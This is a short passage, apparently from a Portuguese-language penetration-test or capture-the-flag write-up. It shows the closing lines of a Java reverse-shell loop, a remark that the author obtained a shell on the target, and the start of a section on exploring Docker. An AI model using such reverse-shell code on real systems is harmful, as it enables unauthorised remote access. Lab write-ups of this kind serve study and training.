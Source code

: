 ```
    while(si.available()>0)po.write(si.read());
    so.flush();
    po.flush();
    Thread.sleep(50);
}

p.destroy();
s.close();
```

Com isso, consegui obter uma shell no sistema com sucesso.

![](attachment/9f699287efc5ba76a1da81a9a5da8d13.png)

## 5.2 Explorando o `Docker`

![](attachment/472c15ceca45ad0ee7ccb5eeac4709e0.png)
